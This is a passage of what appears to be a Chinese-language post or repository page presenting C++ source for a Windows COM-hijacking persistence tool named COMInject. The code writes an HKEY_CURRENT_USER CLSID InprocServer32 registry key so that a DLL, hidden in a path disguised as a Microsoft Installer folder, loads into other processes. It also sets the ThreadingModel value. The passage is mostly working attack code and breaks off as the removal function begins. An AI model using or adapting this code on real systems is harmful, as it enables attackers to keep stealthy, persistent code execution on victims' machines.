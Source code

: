 ```c++
RegCreateKeyExA(HKEY_CURRENT_USER,
        "Software\\Classes\\CLSID\\{b5f8350b-0548-48b1-a6ee-88bd00b4a5e7}\\InprocServer32",
        0, NULL, 0, KEY_WRITE, NULL, &hKey, &dwDisposition)

RegDeleteValueA(hKey, NULL)

RegDeleteValueA(hKey, "ThreadingModel")
```

完整代码如下

```c++
// COMInject.cpp : 此文件包含 "main" 函数。程序执行将在此处开始并结束。
//

#include <iostream>
#include <Windows.h> 
#include <string>
using namespace std;

BOOL COMInject()
{
    HKEY hKey;
    DWORD dwDisposition;
    char system1[] = "C:\\Users\\administrator\\AppData\\Roaming\\Microsoft\\Installer\\{BCDE0395-E52F-467C-8E3D-C4579291692E}\\comInject.dll";
    char system2[] = "Apartment";
    string defaultPath = "C:\\Users\\administrator\\AppData\\Roaming\\Microsoft\\Installer\\{BCDE0395-E52F-467C-8E3D-C4579291692E}";
    string szSaveName = "C:\\Users\\administrator\\AppData\\Roaming\\Microsoft\\Installer\\{BCDE0395-E52F-467C-8E3D-C4579291692E}\\comInject.dll";
    {

        if (ERROR_SUCCESS != RegCreateKeyExA(HKEY_CURRENT_USER,
            "Software\\Classes\\CLSID\\{b5f8350b-0548-48b1-a6ee-88bd00b4a5e7}\\InprocServer32",
            0, NULL, 0, KEY_WRITE, NULL, &hKey, &dwDisposition))
        {
            printf("创建注册表失败！");
            return 0;
        }

        if (ERROR_SUCCESS != RegSetValueExA(hKey, NULL, 0, REG_SZ, (BYTE*)system1, (1 + ::lstrlenA(system1))))
        {
            printf("设置DLL文件失败！");
            return 0;
        }

        if (ERROR_SUCCESS != RegSetValueExA(hKey, "ThreadingModel", 0, REG_SZ, (BYTE*)system2, (1 + ::lstrlenA(system2))))
        {
            printf("设置ThreadingModel失败！");
            return 0;
        }

    ::MessageBoxA(NULL, "comInject OK", "", MB_OK);
    }
}

BOOL UnCOMInject()
{
    HKEY hKey;
    DWORD dwDisposition;

```